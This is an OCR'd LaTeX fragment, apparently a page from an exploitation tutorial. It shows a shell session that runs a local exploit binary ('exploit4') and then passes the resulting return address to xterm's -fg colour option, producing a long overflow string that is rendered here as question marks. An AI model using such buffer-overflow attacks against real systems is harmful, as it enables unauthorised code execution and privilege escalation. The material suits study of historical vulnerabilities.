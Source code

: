 \documentclass[a4paper]{article}
\begin{document}
Works like a charm. Now lets try it on xterm:


\begin{lstlisting}[style=DOS]

$ export DISPLAY=:0.0
$ ./exploit4 2148
Using address: 0xbffffdb0
$ /usr/X11R6/bin/xterm -fg $RET
Warning: Color name
"??????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????

???????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????

???????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????

???????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????

???????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????

???????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????

???????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????

???????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????


\end{lstlisting}
\end{document}
